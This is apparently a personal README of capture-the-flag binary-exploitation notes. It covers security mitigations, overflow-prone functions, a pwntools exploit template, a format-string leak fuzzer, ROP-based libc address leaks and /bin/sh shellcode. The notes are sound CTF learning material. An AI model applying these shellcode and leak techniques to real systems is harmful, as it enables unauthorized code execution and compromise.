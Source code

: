 # writeup and some notes 
### (last update 21 December 2023)
# PWN Notes

1. Run `checksec` check the properties of executable of binary security.
	- **Stack Canaries** = a secret value placed on the stack which changes every time the program is started. the stack canary is checked and if it appears to be modified, the program exits immeadiately.
	- **Nx** = stored input or data cannot be executed as code
	- **Address Space Layout Randomization (ASLR)** = The randomization of the place in memory where the program, shared libraries, the stack, and the heap are.
	- **RELRO** = makes binary sections read-only.
2. Function that can lead to buffer overflow
- scanf
- read
- strcat
- fread
- fgets
- sprintf
- strcpy
- gets
- memcpy
- memmove
- strncpy
- snprintf
- strncat
4. Functions in assembly x86
	```shell
	; write the string to stdout  
	mov eax, 4 ; system call for write  
	mov ebx, 1 ; file descriptor for stdout  
	mov ecx, hello ; address of the string  
	mov edx, len ; number of bytes to write  
	int 80h ; invoke the kernel to perform the system call  
	  
	; exit with success  
	mov eax, 1 ; system call for exit  
	xor ebx, ebx ; return code of 0 for success  
	int 80h ; invoke the kernel to perform the system call
	
	; read input
	mov    edx,0x3c # Store 0x3c in edx
	mov    eax,0x3 # syscall for read()
	int    0x80 # invoke syscall
	add    esp,0x3c # esp increase
	``` 
5. Script i normally use 
- Template i got from crypto cat
``` python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './<file>'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()
padding = 20

payload = flat(

)

# Save the payload to file
write('payload', payload)
# Send the payload
io.sendline( payload)
# Receive the flag
io.interactive()
```
- fuzzer (%p for address leaking, %s for secrets leaking)
```python
from pwn import *
import os

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./pakmat_burger', checksec=False)
os.environ["SECRET_MESSAGE"] = "YOKO"

# Let's fuzz 100 values
for i in range(1,100):
    try:
        p = process(level='error')
        p.sendlineafter(b': ', '%{}$p'.format(i).encode())
        result = p.recv().split(b' ')
        result = result[1].split(b',')
        leak_char = result[0].ljust(8,b"\x00")
        print(str(i) + ': ' + str(leak_char).strip())
        p.close()
    except EOFError:
        pass
```
6. gdb-pwndbg useful commands
```bash
  run <<< $(python <code>) #input as stdin
  run < ./payload.txt #input as stdin
  run $(python <code>) #input as arg
  canary # check stack canary address
  x/100x $rsp # check 100 bytes in rsp 
```
7. pwntools functions i normally
To get output 
```python
leak_puts = u64(output.ljust(8,b"\x00")) # do this if theres no \n
leak = u64(p.recvline().strip().ljust(8,b'\0')) # do this if theres \n at the end
```
get address
```python
main = p64(elf.symbols.main)
plt_puts = p64(elf.plt.puts)
got_puts = p64(elf.got.puts)
```
shellcode
```python
shellcode = asm(shellcraft.cat('flag.txt'))
shellcode = asm(shellcraft.sh())
shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))
```
Example
```python
output = io.recv().split(b'\n')
print("output : ", output)
leak_puts = u64(output[0].ljust(8,b"\x00")) # do this if theres no \n
leak_printf = u64(output[1].ljust(8,b"\x00"))
leak = u64(p.recvline().strip().ljust(8,b'\0')) # do this if theres \n at the end
```
Leaking libc functions address
```python
# for leaking address, pop_rdi(pop rdi, ret; gadget)
payload += pop_rdi + got_puts + plt_puts 
leak = u64(p.recvline().strip().ljust(8,b'\0'))
print("puts {}".format(str(hex(leak))))
```
Setting base addresses
```python
# libc base address
libc.address = leak
# PIE base address
elf.address = leak 
```
others
```python
# example payload converter func
payload = flat(
    b'\x90' * padding,
    esp+20,
    shellcode
)
# shellcode using asm
asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))
# getting address
## sample getting address from output
output = io.recv().split(b'\n')
print("output : ", output)
leak_puts = u64(output[0].ljust(8,b"\x00")) # do this if theres no \n
leak_printf = u64(output[1].ljust(8,b"\x00"))
leak = u64(p.recvline().strip().ljust(8,b'\0')) # do this if theres \n at the end

main = p64(elf.symbols.main)
plt_puts = p64(elf.plt.puts)
got_puts = p64(elf.got.puts)
# for leaking address, pop_rdi(pop rdi, ret; gadget)
payload += pop_rdi + got_puts + plt_puts 
# output format i used for leaking address
leak_puts = u64(output[0].ljust(8,b"\x00"))
leak_printf = u64(output[1].ljust(8,b"\x00"))
print("puts {}".format(str(hex(leak_puts))))
print("printf {}".format(str(hex(leak_printf))))
```

## Pwn Resources
- https://github.com/Crypto-Cat/
- https://zeynarz.github.io/posts/wgmy23/
- https://razvioverflow.github.io/tryhackme/pwn101.html
